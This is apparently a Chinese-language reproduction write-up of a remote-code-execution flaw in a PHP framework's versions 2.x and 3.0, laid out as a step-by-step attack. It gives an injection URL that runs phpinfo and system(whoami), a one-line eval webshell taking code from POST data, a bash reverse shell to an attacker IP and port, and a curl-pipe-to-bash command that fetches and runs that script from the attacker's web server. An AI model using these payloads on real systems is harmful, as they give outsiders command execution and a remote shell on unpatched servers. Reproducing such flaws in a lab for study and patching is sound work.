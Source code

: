 只要在“just test”中匹配到了“test”字符，就执行中间的print_r这条函数的命令。  
  
**2 影响版本**  
  
2.x  
  
3.0  
  
**3.复现**  
  
触发条件是php<=5.6.29  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0c5rk9cwswuYC3GLiaxQtP1NjfaAeQuHcaQ5nJtSzJKQvicudrU7wuNIQ/640?wx_fmt=png "")  
  
访问  
/index.php?s=/index/index/name/$%7B@phpinfo()%7D  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0wjD7icDBuzFXGwj9Lmjg366Kdpa9BatNTmdc3xKibaRfgK4XYuPMVJQQ/640?wx_fmt=png "")  
# 之间改成$%7Bsystem(whoami)%7D  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0AIhI7EtMEybM7gh2wpBYNQAdh9EYt2XyahFgicIUdhiafyG0Ikbp2r1A/640?wx_fmt=png "")  
#   
# 一句话  
  
$  
{     
@  
print  
(  
eval  
(  
$_POST  
[  
1  
]))}  
  
反弹shell  
  
先在攻击机写一个sh文件,里面放  
  
bash -i >& /dev/tcp/192.168.233.131/7777 0>&1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0G5YGic6QWQb0gtktWUPrlRNd5awRSF5QQGZccYtF5HaR9yFjnSHEB4A/640?wx_fmt=png "")  
  
攻击机开启web服务  
  
python -m SimpleHTTPServer 80  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0aNicfVqv7JPoib4qbzhHibFRXzcXKpAx95DoZ0bBdEPSHviaRRIyq755zA/640?wx_fmt=png "")  
  
然后用马子去执行这个sh文件的命令  
  
1=system("curl http://192.168.233.131/shell.sh  | bash");  
  